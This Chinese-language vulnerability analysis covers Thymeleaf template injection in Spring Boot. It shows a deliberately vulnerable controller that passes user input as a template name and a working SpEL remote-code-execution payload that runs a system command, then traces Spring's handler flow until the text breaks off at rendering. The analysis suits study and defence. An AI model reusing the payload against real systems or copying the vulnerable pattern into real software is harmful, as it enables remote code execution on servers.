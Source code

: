 控制器：

```java
package com.example.springboot.controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.GetMapping;
import org.springframework.web.bind.annotation.RequestParam;

@Controller
public class ThymeleafController {
    @GetMapping("/path")
    public String path(@RequestParam String lang) {
        return lang;//template path is tainted
    }
}

```

注意一定要用`@Controller`。这就是thymeleaf的一种用户，当用的`@Controller`的时候，返回的字符串并不是真的打印到页面上的字符串，而是根据这个字符串去寻找模板来渲染。比如`?lang=feng`，那么会去渲染`resources/templates/feng.html`，而漏洞就出在这个地方，如果要渲染的模板名可控的话，就会造成SpEL注入导致rce。



## 分析

poc：

```
__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x
```



从`ServletInvocableHandlerMethod#invokeAndHandle`方法开始看：

![image-20220317163205994](README.assets/image-20220317163205994.png)

`invokeForRequest`方法根据请求的路径去调用相应的controller，然后得到返回值。因此这里`returnValue`的值就是`__${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec("calc").getInputStream()).next()}__::.x`。

往下跟进`handleReturnValue`对返回值进行处理：

![image-20220317163418718](README.assets/image-20220317163418718.png)

然后将这个值作为模板名称：

![image-20220317163527806](README.assets/image-20220317163527806.png)



之后调用`processDispatchResult`开始处理：

![image-20220317163622076](README.assets/image-20220317163622076.png)

开始render：
